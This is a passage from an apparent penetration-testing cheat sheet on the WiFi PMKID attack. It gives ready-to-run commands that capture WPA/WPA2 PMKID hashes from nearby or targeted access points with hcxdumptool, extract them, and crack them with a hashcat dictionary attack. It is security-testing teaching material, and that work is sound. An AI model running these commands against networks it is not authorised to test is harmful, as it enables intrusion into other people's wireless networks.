 ### <mark style="color:orange;">PMKID Attack</mark>

Crack the WPA/WPA2 authentication without deauthenticating clients.

Install the required set of tools on Kali Linux:

```
apt-get update && apt-get -y install hcxtools
```

\[Optional] Install the required tool on WiFi Pineapple Mark VII:

```
opkg update && opkg install hcxdumptool
```

\[Optional] Install the required tool on WiFi Pineapple Nano:

```
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes for all nearby networks:

```
hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon
```

\[Optional] Start capturing PMKID hashes for specified WiFi networks:

```
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon --filterlist_ap=filter.txt --filtermode=2
```

Sometimes it can take hours to capture a single PMKID hash.

Extract PMKID hashes from a PCAP file:

```
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start the dictionary attack against PMKID hashes:

```
hashcat -m 16800 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).

## <mark style="color:red;">WEP Attacks</mark>

### <mark style="color:orange;">Fake Authentication Attack</mark>
